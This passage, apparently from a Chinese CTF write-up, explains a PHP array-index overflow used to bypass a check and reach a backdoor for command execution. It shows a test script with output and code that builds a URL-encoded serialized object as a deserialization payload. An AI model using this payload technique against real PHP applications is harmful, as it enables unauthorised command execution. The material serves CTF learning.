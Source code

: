 ###  php数组溢出

我们的目的是利用`backdoor`来执行命令,所以需要绕过判断语句。

我们利用php的数组溢出，在不同的操作系统PHP最大值是不一样的，32位上为`2147483647`，64位上为`9223372036854775807`，所以这里我们应该设置count为`9223372036854775806`

做个小实验：

```
<?php
class User{
    public $count;
}

$a = new User();
$a->count = 9223372036854775806;

$user=unserialize(serialize($a));
$count[++$user->count]=1;
var_dump($count);

if($count[]=1){
    echo "die";
}else{
    echo "success";
}
?>
```

输出:

```php
array(1) {
  [9223372036854775807] =>
  int(1)
}
success
```

发现可以绕过，所以构造反序列化值

```php
<?php
class User{
    public $count;
}

$a = new User();
$a->count = 9223372036854775806;
echo urlencode(serialize($a));

```

输出，一定要使用`urlencode`
